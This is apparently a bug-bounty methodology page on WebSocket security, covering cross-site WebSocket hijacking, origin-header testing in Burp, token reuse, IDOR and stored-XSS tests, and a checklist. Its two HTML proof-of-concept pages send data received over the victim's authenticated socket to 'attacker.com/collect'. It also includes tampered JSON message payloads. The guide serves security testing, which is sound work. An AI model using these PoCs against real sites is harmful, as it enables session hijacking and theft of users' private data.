

> Source: https://bugbounty.info/Attack-Surface/Web/Client-Side/WebSocket

# WebSocket Security

WebSockets get ignored in most assessments  -  testers glance at the Upgrade request and move on. That's a mistake. The WebSocket handshake inherits all the same auth and origin problems as HTTP, but most devs treat it as a fundamentally different protocol that "doesn't need the same protections." It does.

## How WebSocket Auth Works (and Fails)



The handshake is an HTTP request. Cookies and headers are present. But once the tunnel is open, there's no per-message authentication unless the app explicitly adds it. The auth decision happens once, at handshake time.

## Cross-Site WebSocket Hijacking (CSWSH)

CSWSH is CSRF for WebSockets. The browser sends cookies with the handshake request regardless of origin  -  unless the server checks the `Origin` header and rejects unexpected origins.

```html
<!-- attacker.com/exploit.html  -  victim visits this page while logged into target.com -->
<script>
  const ws = new WebSocket('wss://target.com/ws');
 
  ws.onopen = function() {
    // Now connected with the victim's session cookies
    ws.send(JSON.stringify({action: 'getAccountData'}));
    ws.send(JSON.stringify({action: 'listMessages'}));
  };
 
  ws.onmessage = function(evt) {
    // Exfil all received data
    fetch('https://attacker.com/collect', {
      method: 'POST',
      body: evt.data
    });
  };
</script>
```

If the server never checks `Origin` during the handshake  -  or checks it weakly  -  any page the victim visits can open a WebSocket to the target and read/write on behalf of the authenticated user.

### Testing Origin Validation

In Burp, catch the handshake request and modify the `Origin` header:

```http
GET /ws HTTP/1.1
Host: target.com
Upgrade: websocket
Connection: Upgrade
Origin: https://evil.com       <- change this
Sec-WebSocket-Key: ...
Sec-WebSocket-Version: 13
Cookie: session=abc123
```

If you get `101 Switching Protocols` back, CSWSH is viable. Now test if the subsequent messages return sensitive data.

## Token-Based Handshake Auth

Some apps pass auth tokens in the WebSocket URL or as the first message, rather than relying on cookies:

```text
wss://target.com/ws?token=eyJhbGc...
wss://target.com/ws?auth=SESSION_TOKEN
```

Tokens in URLs end up in server logs. Test whether the token rotates per connection or can be reused. CSWSH is still relevant here if the token is predictable or if you can extract it via another vulnerability (XSS, Referer leakage).

## Message Injection and Logic Issues

Once you're connected (legitimately, as a test account), proxy all WebSocket traffic through Burp. Burp's WebSocket history tab captures every frame. Test:

**IDOR via WebSocket messages:**

```json
{"action": "getMessages", "userId": 1337}
-> try userId: 1338, 1, 0, -1
```

**Privilege escalation via message manipulation:**

```json
{"action": "sendMessage", "to": "user123", "body": "hi"}
-> {"action": "sendMessage", "to": "admin", "body": "reset password for user123"}
```

**Stored XSS via WebSocket:**

```json
{"action": "setUsername", "value": ""}
```

If the message gets rendered in other users' browsers  -  that's stored XSS delivered over WebSocket. Same sink analysis as [DOM XSS](../../../Attack-Surface/Web/Injection/XSS/DOM-XSS) applies.

## Authentication on Message Content

Some WS implementations require a separate auth message after handshake:

```json
-> {"type": "auth", "token": "abc123"}
<- {"type": "auth_ok", "userId": 42}
```

Test: what happens if you skip the auth message and go straight to data requests? What happens if you send a malformed auth? Some servers accept any auth message and grant access without validating the token.

## Reconnection and Token Reuse

WebSocket connections can be short-lived. The client reconnects using whatever token mechanism was established. If the token is long-lived and not invalidated on logout, you've got a persistence vector.

## Burp Setup for WebSocket Testing

1. Proxy > WebSockets history  -  all frames are here
2. Right-click any frame -> Send to Repeater  -  replay individual messages
3. Intercept WebSocket messages: Proxy > Options > Intercept WebSocket messages
4. Match and replace for automated payload injection

## CSWSH PoC Template

```html
<!DOCTYPE html>
<html>
<body>
<h2>CSWSH PoC</h2>
<pre id="log"></pre>
<script>
  const log = document.getElementById('log');
  const ws = new WebSocket('wss://target.com/ws/endpoint');
 
  ws.onopen = () => {
    log.textContent += '[+] Connected with victim cookies\n';
    // Replay whatever the legitimate client sends first
    ws.send(JSON.stringify({type: 'subscribe', channel: 'user_data'}));
  };
 
  ws.onmessage = (e) => {
    log.textContent += '[Data] ' + e.data + '\n';
    // Exfil
    navigator.sendBeacon('https://attacker.com/collect', e.data);
  };
 
  ws.onerror = (e) => {
    log.textContent += '[!] Error  -  origin check may be in place\n';
  };
</script>
</body>
</html>
```

## Checklist

- Catch the WebSocket handshake in Burp  -  note cookies and Origin header
- Change Origin to `https://evil.com`  -  does server still return 101?
- If CSWSH viable: what data do the initial messages return?
- Proxy all WS frames through Burp WebSocket history
- Test IDOR in every message that references a user ID or resource ID
- Look for stored XSS sinks  -  anywhere message content gets rendered to other users
- Check if auth message can be skipped or bypassed
- Test reconnection: are tokens reused? Invalidated on logout?

## Public Reports

- Cross-site WebSocket hijacking on real-time chat app gives full account read access - [HackerOne #698584](https://hackerone.com/reports/698584)
- WebSocket IDOR via user_id field in subscription message reads victim's private data - [HackerOne #1063077](https://hackerone.com/reports/1063077)
- Stored XSS delivered via WebSocket message rendered in other users' sessions - [HackerOne #1049375](https://hackerone.com/reports/1049375)
- WebSocket auth message can be skipped entirely allowing unauthenticated data access - [HackerOne Hacktivity search](https://hackerone.com/hacktivity?querystring=websocket+authentication+bypass)

## See Also

- [CSRF](../../../Attack-Surface/Web/Client-Side/CSRF)
- [IDOR](../../../Attack-Surface/Web/Authorization/IDOR)
- [DOM XSS](../../../Attack-Surface/Web/Injection/XSS/DOM-XSS)
